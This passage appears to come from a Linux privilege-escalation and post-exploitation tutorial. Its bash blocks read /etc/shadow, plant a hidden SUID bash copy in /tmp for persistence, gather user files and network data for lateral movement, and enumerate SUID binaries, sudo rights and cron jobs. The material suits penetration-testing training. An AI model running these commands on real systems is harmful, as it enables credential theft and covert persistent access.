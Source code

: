 **Integration Benefits:**
- **Informed Targeting:** Use system information to guide privilege escalation strategy
- **Efficient Exploitation:** Focus on most likely attack vectors based on initial access
- **Comprehensive Coverage:** Multiple tools provide different attack perspectives

#### **Phase 3: Post-Exploitation Activities**
```bash
# After gaining root access via SUID exploitation
whoami
id
hostname

# System information gathering
uname -a
cat /etc/passwd | wc -l
cat /etc/shadow | head -5

# Look for additional attack vectors
find / -name "*.conf" -type f 2>/dev/null | grep -E "(ssh|mysql|apache)"
netstat -tulpn | grep LISTEN

# Establish persistence
cp /bin/bash /tmp/.hidden_shell
chmod +s /tmp/.hidden_shell

# Data collection and lateral movement
find /home -name "*.txt" -o -name "*.doc" -o -name "*.pdf" 2>/dev/null
cat /etc/hosts
arp -a
```

### **🔧 Integration with Other Privilege Escalation Techniques:**

#### **Combined Enumeration Approach:**
```bash
# Complete privilege escalation enumeration
echo "=== SUID/SGID Binaries ==="
find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null

echo "=== Writable System Directories ==="
find / -type d -writable 2>/dev/null | grep -E "(bin|sbin|usr)"

echo "=== Sudo Permissions ==="
sudo -l 2>/dev/null

echo "=== Cron Jobs ==="
cat /etc/crontab 2>/dev/null
ls -la /etc/cron* 2>/dev/null

echo "=== Kernel Version ==="
uname -a
cat /proc/version
```
